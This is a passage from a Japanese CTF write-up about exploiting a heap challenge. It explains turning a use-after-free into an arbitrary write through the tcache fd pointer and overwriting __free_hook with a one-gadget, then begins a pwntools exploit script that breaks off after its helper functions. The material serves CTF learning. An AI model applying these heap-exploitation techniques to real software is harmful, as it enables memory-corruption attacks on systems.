 ### UAFで任意アドレス書き込み

これまでの問題で任意アドレスを書き換えたい時はだいたいDouble Freeを利用していたが今回は次に示す理由からUAFを利用する。

まずDouble Freeで任意アドレス書き込みをする際に必要な手順は次の通りである。
`create -> delete -> delete -> create -> edit -> create -> create -> edit`
今回はcreateとeditが分離しているため8回もの手順が必要になる。逆にこれを利用して次のようにすれば回数を削減できる
`create -> delete -> edit -> create -> create -> edit`
editが単体で出来るので一度freeした領域に書き込みをすることが出来る、これでDouble Freeをせずにfdを任意アドレスに向けることが出来る。これで6回の手順に収まった。
実際には最後の`__free_hook`書き換えでしか使わないが、道中のtcacheをヌルポインタに繋げるところや、次に取得するチャンクを偽装チャンクに変えるところでもDouble Freeではな無くUAFを利用している。

### いつもの

というわけでいつものように`__free_hook`を書き換えて終わり、ここも回数節約のために`/bin/sh`のeditを要する`system("/bin/sh")`ではなくOne Gadgetでdeleteを叩けば一発で飛ぶようにした。

全体を通してやっていることは何度もリンクを貼っているように[SECCON CTF 2019 Quals - One](/3uaJoXJeTB6FbzJ5p-QJ7Q)とだいたい同じなので削減努力の解説になってしまった。

## Code

```python
from pwn import remote, process, p64, u64, ELF


def select(s, sel, c=b"4) Read a postcard\n"):
    s.recvuntil(c)
    s.sendline(sel)


def create(s, idx):
    select(s, b"1")
    s.recvuntil(b"Which envelope #?\n")
    s.sendline(str(idx))


def edit(s, idx, data):
    select(s, b"2")
    s.recvuntil(b"Which envelope #?\n")
    s.sendline(str(idx))
    s.recvuntil(b"Write.\n")
    s.send(data)


def delete(s, idx):
    select(s, b"3")
    s.recvuntil(b"Which envelope #?\n")
    s.sendline(str(idx))


def show(s, idx):
    select(s, b"4")
    s.recvuntil(b"Which envelope #?\n")
    s.sendline(str(idx))
    return s.recvline().rstrip()


if __name__ == '__main__':
    """
        Arch:     amd64-64-little
        RELRO:    Full RELRO
        Stack:    Canary found
        NX:       NX enabled
```
